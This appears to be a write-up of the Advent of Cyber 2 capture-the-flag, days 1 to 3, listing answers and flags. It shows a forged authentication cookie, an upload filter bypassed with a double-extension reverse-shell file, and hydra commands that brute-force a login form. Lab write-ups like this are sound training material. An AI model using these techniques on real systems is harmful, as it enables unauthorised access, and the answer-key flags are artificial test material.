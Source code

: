 
# Advent Of Cyber 2 [2020]

## *[Day 1] Web Exploitation A Christmas Crisis*

- What is the name of the cookie used for authentication?

> auth

- In what format is the value of this cookie encoded?

> hexadecimal

- Having decoded the cookie, what format is the data stored in?

> JSON

- Figure out how to bypass the authentication. What is the value of Santa's cookie?

> 7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d

- Now that you are the santa user, you can re-activate the assembly line! What is the flag you're given when the line is fully active?

> THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}

---

## *[Day 2] Web Exploitation The Elf Strikes Back!*

- What string of text needs adding to the URL to get access to the upload page?

> ?id=ODIzODI5MTNiYmYw

- What type of file is accepted by the site?

> image

- Bypass the filter and upload a reverse shell. In which directory are the uploaded files stored?

To bypass the filter naming the file "rev-shell.png.php" is enough.

> /uploads/

- Activate your reverse shell and catch it in a netcat listener! What is the flag in /var/www/flag.txt?

> THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

---

## *[Day 3] Web Exploitation Christmas Chaos*

- What is the flag?

```bash
# Find out the username
$ hydra -L day3-users.txt -p aaa 10.10.223.30 -V http-post-form "/login:username=^USER^&password=^PASS^:/?login=username_incorrect" -I

#Find out the password
$ hydra -l admin -P day3-pass.txt 10.10.223.30 -V http-post-form "/login:username=^USER^&password=^PASS^:/?login=password_incorrect" -I
```
